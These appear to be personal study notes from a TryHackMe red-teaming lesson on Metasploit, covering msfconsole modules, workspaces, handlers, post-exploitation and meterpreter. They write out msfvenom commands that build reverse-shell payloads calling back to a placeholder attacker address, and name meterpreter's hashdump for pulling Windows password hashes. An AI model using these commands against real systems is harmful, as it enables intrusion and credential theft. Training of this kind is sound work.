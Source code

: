 #RedTeaming #tryhackme 

Start: msfconsol 
generate custom payloads: msfvenom

#### Modules and categories:
- Auxiliary: Support modules such as scanners and fuzzers
- Encoders: Encode exploits or payloads to hide from antivirus 
- Evasion: Modules that try to evade antivirus -> More advances way then encoding
- Exploits: Different exploits for different targets.
- NOPs: Do nothing, used to create buffers 
- Payloads: Code that will run on the target:

Different types of payloads:
![[Pasted image 20241117205823.png]]


Useful console commands:
```
- use:
- back: 
- seach:
- info: 
- set:
- unset:
- setg:
- unsetg:
- show options
```

Remember when an exploit is chosen, we can use the default payload OR use `show payloads` to look for other options. 


#### Workspaces:
In larger pentests, we can organize attacks and enumerations in a database while working. 

```
systemctl start postgresql
msfdb init 


---- Then launch msfconsole ------
Relevant commands: 

db_status: Confimes the db is running
workspace: lists workspaces 
db_nmap: Do a nmap scan, and save the findings in the db 
hosts:
services: 
```


### msfvenom:

Generate custom and encoded payloads 

```
msfvenom -l payloads: lists all payloads

### Examples: ###

Generate meterpreter rev shell for linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

Generate meterpreter rev shell with php:
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```


Based on the payload we generate with msfvenom, we need to pick a handler (code that runs on our machine) that fits our chosen payload.  We often use `exploit/multi/handler`, but we need to customize its payload to fit the payload we have on the target:  

Example: For the .elf reverse shell, we used the standard multi handler with: `linux/x86/meterpreter/reverse_tcp` as the payload for the handler. 

When we get a connection on the target, we have to do post exploitation. 

`seach type:post platfrom:<target_platfrom> any_other_keyword`

Then in the same console as we have the reverse shell, background the session, and use the post exploitation selected. In the post exploitation, we specify the session we want to post-exploit. 

```
Usefull:
backgroud: background the current session
session: lists the current sessions
```


### meterpreter:

- Runs on the target system and act as a reverse shell.
- Runs in the memory of the target, not on disk.

We have different versions of meterpreter, that fits different targets. List possible meterpreter payloads:

`msfvenom --list payloads | grep meterpreter`

Relevant questions to answer when picking the correct meterpreter payload:
- The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
- Components available on the target system (Is Python installed? Is this a PHP website? etc.)
- Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.)

 When we have a meterpreter "shell" on the target, we have lots of commands to use:
```
help: Since commands vary from different meterpreters
ps: Lists the current processes 
sysinfo: Lists systeminfo
hashdump: outputs the hashed found in the SAM (Security Account Manager) database (Windows)

....
```







